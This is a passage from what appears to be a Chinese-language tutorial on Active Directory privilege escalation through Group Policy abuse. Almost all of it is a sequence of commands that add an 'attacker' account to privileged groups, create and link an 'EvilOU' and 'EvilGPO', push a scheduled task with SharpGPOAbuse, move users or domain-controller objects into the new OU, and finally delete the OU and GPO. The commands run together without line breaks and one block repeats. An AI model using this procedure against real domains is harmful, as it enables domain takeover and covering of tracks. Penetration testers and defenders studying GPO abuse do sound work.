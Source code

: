 命令：

  

  *   *   *   *   *   *   * 

    
    
    net group "Exchange Trusted Subsystem" attacker /add /domain //将指定用户加的高权限组net group "Group Policy Creator Owners" attacker /add /domain  //将指定用户加的高权限组SharpGPO.exe --Action NewOU --OUName "EvilOU" //新建OUSharpGPO.exe --Action NewGPO --GPOName "EvilGPO" //新建GPOSharpGPO.exe --Action NewGPLink --DN "OU=EvilOU,DC=xx,DC=xx" --GPOName "EvilGPO" //OU与GPO进行链接SharpGPOAbuse.exe --AddUserTask --TaskName "PocCalc" --Author attch --Command "cmd.exe" --Argument "/c calc.exe" --GPOName //给GPO添加任务SharpGPO.exe --Action MoveObject --SrcDC "CN=XXX,CN=users,DC=xx,DC=xx" --DstDN "OU=EvilOU,DC=xx,DC=xx" //将指定用户移动到新建的OU中

  

域提权

  

原理跟上面类似，只是把用户改成了机器

  

![](https://gitee.com/fuli009/images/raw/master/public/20210815133423.png)

  

工具：

  

https://github.com/Dliv3/SharpGPO

https://github.com/FSecureLABS/SharpGPOAbuse

  

命令：

  

  *   *   *   *   *   *   * 

    
    
    net group "Exchange Trusted Subsystem" attacker /add /domain //将指定用户加的高权限组net group "Group Policy Creator Owners" attacker /add /domain  //将指定用户加的高权限组SharpGPO.exe --Action NewOU --OUName "EvilOU" //新建OUSharpGPO.exe --Action NewGPO --GPOName "EvilGPO" //新建GPOSharpGPO.exe --Action NewGPLink --DN "OU=EvilOU,DC=xx,DC=xx" --GPOName "EvilGPO" //OU与GPO进行链接SharpGPOAbuse.exe --AddUserTask --TaskName "PocCalc" --Author attch --Command "cmd.exe" --Argument "/c calc.exe" --GPONameSharpGPO.exe --Action MoveObject --SrcDC "CN=XXX,OU=Domain Controllers,DC=xx,DC=xx" --DstDN "OU=EvilOU,DC=xx,DC=xx" //将指定机器移动到新建的OU中

  

最后移除新建的OU、GPO

  

  *   * 

    
    
    SharpGPO.exe --Action RemoveOU --OUName "EvilOU" //移除OUSharpGPO.exe --Action RemoveGPO --GPOName "EvilGPO" //移除GPO

